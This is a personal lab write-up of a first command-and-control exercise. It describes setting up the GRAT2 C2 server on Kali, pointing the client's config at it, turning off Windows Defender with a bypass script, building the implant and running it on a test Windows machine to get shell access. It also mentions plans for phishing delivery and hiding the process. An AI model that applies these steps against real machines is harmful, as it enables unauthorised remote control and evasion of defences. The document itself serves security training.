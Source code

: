## Command & Control exercise 1 

This is an exercise presented to me by a mentor which I've recreated to gain an intro in malware propagation and transition.

---
### Environment
This exercise was performed by having both the attack and target machine within the same network.
#### Operating System
Latest kali-VM rolling update (Red)
Windows10 up to date (Red)
Windows 10 up to date (Blue)
#### Tools
GRAT2 - C&C (source: https://github.com/r3nhat/GRAT2)
Bypass-Windows-Defender-VBS (Optional) (source: https://github.com/NYAN-x-CAT/Bypass-Windows-Defender-VBS/security)
Visual Studio 2022 (Community)

---
### Methodology
#### Objectives/Flags
Establish a C&C server on the Kali, Build malware on the Win10(Red) and            propagate the executable to the target Win10(Blue).
#### Reconnaissance
N/A
#### Weaponization 
The first step was to setup up `Visual Studio (2022 Community edition)` on the Win10 (Red) where the client executable will be built. Once installed it was just a matter of installing the necessary addons that would allow projects to be built. This was a struggle as I haven’t had exposure to this IDE and program development. The best way I could describe it was just ensuring I installed the latest dot.Net SDK frameworks (This was mostly done through trial and error of trying to build the executable and working with the errors to find out what was missing)

Once I downloaded and unzipped out the GRAT2 package, I opened `GRAT2_client.sln`. This as I understand it is the project file where we will then open the sub files to configure. My next task was to set the project to point towards my GRAT2 server which will be hosted on the kali.

On the kali I grabbed the local IPv4 address.
```
ifconfig
	192.168.xxx.xxx
```

From there I needed to install the necessary before we get started.
```
pip3 install -r ~/GRAT2-C&C/GRAT2-master/requirements.txt
```

Now we can launch the server on port 80
```
cd ~/GRAT2-C&C/GRAT2-master/GRAT2_Server
	python3 grat2.py 80
```
The server was now up and running and listening for incoming connections.

Moving back to the Win10(Red) we opened Config.cs and modified the control-server address on line 9.
```
~\GRAT2-master\GRAT2_Client
	c2 = "http://192.168.xxx.xxx/"

```
Now the executable was ready to build however I encountered two errors during this process. Firstly, I was receiving an error related to the target dot.NET framework which was expecting an earlier version that what was currently installed. In order remediate this error I needed to find what version I was using and retarget the project to use that later version.
The steps I used to find my version of the framework can be found here: https://www.windowscentral.com/how-quickly-check-net-framework-version-windows-10
Now that I found my version, I retargeted the version in the `GRAT2_Cient.csproj`
```
<TargetFrameworkVersion>vX.X</TargetFrameworkVersion>
```
Lastly before I could the project, I needed to disable Windows defender as it was picking up the executable's malicious code. I was pointed towards using the `Bypass-Windows-Defender-VBS` which I mentioned earlier to turn it all off. This however wasn't enough and when I built the project, I needed to specifically allow the executable past defender.
Once the executable was successfully built, I found it here: `~\GRAT2-master\GRAT2_Client\bin\Debug\GRAT2_Client.exe

#### Delivery
I kept it simple for my first attempt at this exercise simply by coping over the executable from the Win10(Red) to the Win10(Blue), however in future I'd like to experiment different delivery techniques such as having it hosted on a HTTP server running on the kali where I then use phishing to have the target get and run the file on the target machine.

#### Exploitation
N/A
#### Installation 
N/A
#### Command & Control
Once the executable is run on the target machine a blank black console appears which creates a connection to the Grat2 server running on Kali. This can be seen on the Kali as a notice that `hostname` has connected. I imagine this console window can be manipulated to remain hidden and run in the background, possibly under disguised service processes.
#### Actions on Objective
From here we can begin to explore and manipulate the target machine with shell access.
From the Grat2 server:
```
listagents
	help
```
---
### After-action
#### What I've learned
This was the first exposure I've had to a command & control tool. It was a bit of a struggle to get Visual Studio working properly to build it out but once figured out it worked as intended. The code itself was a bit too complex for me to understand immediately but I took away the concept of how a server is run and how a target can be connected to it.
#### What I would've done differently
If I was to come back to this exercise I would like to expand upon the attack-chain to deliver the .exe from my attack machine to the target. Additionally, I would like to find ways to experiment with ways to hide the running executable from users and expand upon the actions on objectives to gain more control/visibility over the target's network. 

